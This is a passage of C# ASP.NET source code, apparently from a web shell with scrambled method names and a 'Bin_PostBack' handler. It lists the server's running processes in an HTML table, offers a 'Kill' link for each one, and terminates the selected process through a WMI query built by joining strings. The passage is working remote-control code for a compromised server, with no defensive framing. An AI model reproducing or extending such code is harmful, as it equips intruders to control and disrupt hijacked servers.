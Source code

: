 tr.Controls.Add(td);
}
if(i==2)
{
td.Text=dt.Rows[j]["ProcessID"].ToString();
tr.Controls.Add(td);
}
if(i==3)
{
td.Text=dt.Rows[j]["Name"].ToString();
tr.Controls.Add(td);
}
if(i==4)
{
td.Text=dt.Rows[j]["ThreadCount"].ToString();
tr.Controls.Add(td);
}
if(i==5)
{
td.Text=dt.Rows[j]["Priority"].ToString();
tr.Controls.Add(td);
}
if(i==6)
{
if( dt.Rows[j]["CommandLine"]!=string.Empty)
{
td.Text="&lt;a href=\"javascript:Bin_PostBack('urJG','"+dt.Rows[j]["ProcessID"].ToString()+"')\"&gt;Kill&lt;/a&gt;";
}
else
{
td.Text="--";
}
tr.Controls.Add(td);
}
}
IjsL.Controls.Add(tr);
}
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void urJG(string pid)
{
try
{
foreach(ManagementObject p in PhQTd("Select * from Win32_Process Where ProcessID ='"+pid+"'"))
{
p.InvokeMethod("Terminate",null);
p.Dispose();
}
xseuB("Process Kill Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
AIz();
}
public void oHpF()
{
try